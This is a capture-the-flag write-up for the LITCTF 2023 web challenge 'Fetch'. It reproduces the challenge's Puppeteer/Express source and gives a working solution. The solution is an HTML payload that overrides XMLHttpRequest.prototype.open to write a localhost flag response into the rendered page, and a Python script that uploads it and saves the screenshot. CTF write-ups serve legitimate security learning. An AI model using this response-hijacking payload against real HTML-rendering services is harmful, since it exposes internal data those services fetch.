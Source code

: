 # Web - Fetch (LITCTF 2023)

## Problem

We are given the following `index.js` file on port 4242:

```js
import puppeteer from "puppeteer";
import { randomString, startFlagServer } from "./flag_server";
import express from "express";
import fileUpload from "express-fileupload";
import fs from "fs";

const runHTMLFile = async (filePath) => {
  const browser = await puppeteer.launch();
  const page = await browser.newPage();
  await page.goto(`file:${filePath}`);

  await page.evaluate(() => {
    const req = new window.XMLHttpRequest();
    req.open("GET", "http://localhost:6969/" + randomString, false);
    req.send(null);
  });
  const screenshot = await page.screenshot({
    path: filePath.replace(".html", ".png"),
    fullPage: true,
    type: "png",
  });
  await browser.close();

	return filePath.replace(".html", ".png");
};

const app = express();
app.use(fileUpload());
const port = 4242;
app.get("/", (req, res) => res.sendFile("index.html"));
app.get("/runHTML", async (req, res) => {
	// takes html file upload, saves it to "/uploads" + random string .html, runs it with the runHTMLFile function, and returns the screenshot
	const file = req.files.file;
	if (!file) {
		res.status(400).send("No file uploaded");
		return;
	}
	if (!file.mimetype.includes("html")) {
		res.status(400).send("File is not HTML");
		return;
	}

	const filePath = `/uploads/${Math.random().toString(36).substring(7)}.html`;
	fs.writeFileSync(filePath, file.data);
	const outputFilePath = runHTMLFile(filePath);
	res.sendFile(outputFilePath);
	// delete the files
	fs.rmSync(filePath);
	fs.rmSync(outputFilePath);
});

app.get('/sus.js', (req, res) => res.sendFile('sus.js'))

app.listen(port, () => console.log(`app listening on port ${port}!`));
startFlagServer();
```

Note that the flag server is running on port 6969:

```js
import express from "express";

const app = express();
const port = 6969;
export const randomString = Math.random().toString(36).substring(7);
app.get("/" + randomString, (req, res) => res.sendFile("flag.txt"));
export const startFlagServer = () =>
  app.listen(port, "127.0.0.1", () =>
    console.log(`flag server listening on port ${port}!`)
  );
```

We are also given the following hints in `sus.js`:
```
("big hints: headless browser with your file");
("gets flag from server");
("what can you do to intercept this?");
```

## Solution

As the hint suggests, our main objective is to intercept the AJAX request made to the flag server (`http://localhost:6969`) in the `runHTMLFile` function, i.e.:

```js
await page.evaluate(() => {
    const req = new window.XMLHttpRequest();
    req.open("GET", "http://localhost:6969/" + randomString, false);
    req.send(null);
  });
```

Some searching online rovides the following mechanism to overwrite the functionality of `XMLHttpRequest.prototype.open` upon receiving a response. This is in `fetchsolvehtml.html` for use in my solve script:

```html
<html>
    <script>
        // https://gilfink.medium.com/quick-tip-creating-an-xmlhttprequest-interceptor-1da23cf90b76
        let oldXHROpen = window.XMLHttpRequest.prototype.open;window.XMLHttpRequest.prototype.open = function(method, url, async, user, password) {
            this.addEventListener('load', function() {
                document.write(this.responseText);
            });        
            return oldXHROpen.apply(this, arguments);
        }
    </script>
</html>
```

Once this is done, the server returns a screenshot of the webpage that now contains the flag after performing `document.write(this.responseText);` above. A solve script to finish this is as follows:

```python
import requests

url = 'http://litctf.org:31770'

r = requests.post(url + '/runHTML', files = {'file': ('file.html', open('fetchsolvehtml.html', 'rb').read(), 'text/html')})
print(r.status_code)
with open('fetch_response.png', 'wb') as f:
    f.write(r.content)
```

## Flag

LITCTF{wow_i_actually_love_the_fetch}
